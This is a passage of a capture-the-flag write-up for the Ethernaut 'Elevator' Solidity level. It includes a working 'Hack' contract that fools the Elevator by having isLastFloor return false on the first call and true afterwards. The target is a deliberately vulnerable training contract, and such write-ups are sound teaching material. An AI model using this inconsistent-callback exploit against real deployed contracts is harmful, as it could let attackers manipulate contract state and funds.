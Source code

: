 ### Objective

1. Reach the top of your building.

Things that might help:

-   Sometimes solidity is not good at keeping promises.
-   This Elevator expects to be used from a Building.

<details><summary>Level Contract</summary></details>

### Exploit

It's a little unclear but the goal of the level is to change the `top` variable to true.

To accomplish this I exploited the fact that `Elevator` uses an interface. As long as I follow the function signature, I can create the function I want.

I deployed the following `Hack` contract.

```js

contract Hack {
    Elevator target;
    bool isFirstCall;

    constructor(address _targetAddress) {
        target = Elevator(_targetAddress);
        isFirstCall = true;
    }

    function isLastFloor(uint _level) external returns(bool){
        if(isFirstCall){
            isFirstCall = false;
            return false;
        }
        return true;
    }

    function hack(uint _level) external {
        target.goTo(_level);
    }
}

```

All that is left is to call the `hack` function with a uint argument. My custom `isLastFloor` function alwars return false the first time it is called and true all subsequent calls. This tricks the `Elevator` logic and sets `top` to true.

## <a id="12"></a>Level 12 - Privacy

### Objective
